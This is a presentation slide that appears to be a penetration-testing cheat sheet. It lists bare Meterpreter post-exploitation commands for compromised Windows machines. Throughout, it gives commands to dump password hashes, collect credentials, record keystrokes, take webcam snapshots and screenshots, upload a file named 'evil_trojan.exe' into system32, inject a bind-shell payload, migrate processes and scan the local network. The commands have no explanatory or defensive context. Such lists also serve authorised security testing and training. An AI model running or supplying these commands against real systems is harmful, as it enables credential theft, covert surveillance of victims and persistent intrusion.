

Payload Meterpreter
getuid
sysinfo
idletime
download c:\\boot.ini
edit edit.txt
execute -f cmd.exe -i -H
run post/windows/gather/hashdump
run post/windows/gather/credential_collector
migrate
run post/windows/manage/migrate
run post/windows/manage/multi_meterpreter_inject PAYLOAD=windows/shell_bind_tcp
search -f autoexec.bat
shell
upload evil_trojan.exe c:\\windows\\system32
webcam_list
webcam_snap
screenshot
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_shares
run post/windows/gather/usb_history
use post/multi/recon/local_exploit_suggester
run post/windows/capture/keylog_recorder
background
jobs
sessions
run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
run post/windows/gather/checkvm